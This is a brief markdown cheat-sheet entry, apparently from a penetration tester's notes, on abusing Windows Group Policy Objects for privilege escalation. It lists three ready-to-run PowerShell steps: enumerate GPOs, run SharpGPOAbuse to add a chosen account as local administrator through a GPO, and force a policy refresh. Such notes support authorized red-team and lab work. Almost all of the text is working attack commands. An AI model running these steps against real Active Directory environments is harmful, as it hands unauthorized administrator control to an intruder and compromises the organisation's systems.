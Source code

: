 ```yaml
---
title: "GPOs"
date: 2024-8-3
tags: ["GPOs", "Windows", "privesc", "Group Policy Objects"]
---
```


---
### Abuse #1: Add local admin

#### 1. List GPOs Name

<div>

```powershell
Get-GPO -All | Select-Object DisplayName
```

</div>

#### 2. Add localAdmin

<div>

```powershell
.\SharpGPOAbuse.exe --AddLocalADmin --UserAccount <USER> --GPOName <GPO_NAME>
```

</div>

#### 3. Force reload

<div>

```powershell
gpupdate /force
```

</div>

<small>*Ref: [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)*</small>

<br>